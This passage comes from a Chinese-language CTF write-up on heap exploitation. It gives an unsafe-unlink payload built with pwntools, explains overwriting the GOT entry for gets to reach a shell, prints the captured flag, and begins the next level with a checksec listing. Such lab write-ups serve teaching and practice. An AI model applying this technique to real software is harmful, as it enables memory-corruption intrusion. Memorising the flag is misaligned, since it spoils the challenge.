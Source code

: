 p+0x100-0x10可以看到 q 的 pre size 與 chunk size

![./img/Untitled%2035.png](./img/Untitled%2035.png)

p_addr = 0x601080

```
flat({0: p64(p_addr - 0x18), 8: p64(p_addr - 0x10)}, length=0x100-0x10) + p64(pre_size) + p64(size) + 'a' * (size - 0x10 ) + p64(size) 
```

要注意的是，forge chunk 要往上 -0x10 到完整的 chunk 而非 data 的 ptr

成功 unlink 之後 可以看到指向 0x601068 ，這時只要蓋寫使他指向 got 就可以蓋寫成後門，這邊打算把 gets 給蓋寫掉

![./img/Untitled%2036.png](./img/Untitled%2036.png)

```
BreakALLCTF{XUnGU4wDb65I5hJnNhwH}
```

註: 因為本機使用舊版的 [libc-2.23.so](http://libc-2.23.so/) 進行測試，可能會導致開啟 sh 時 sh 崩潰，但實際上 remote 是可以 getshell 的情況發生

## level 4 heap1-sean_Pwn-5

有後門讓人覺得難度降低很多

```
Canary                        : ✘
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
```

分析過後，看起像是嘗試重新得到 ptr1 的 chunk ，因為解讀資料只能從該 chunk 取得，並且取得的值會作為指標使用。

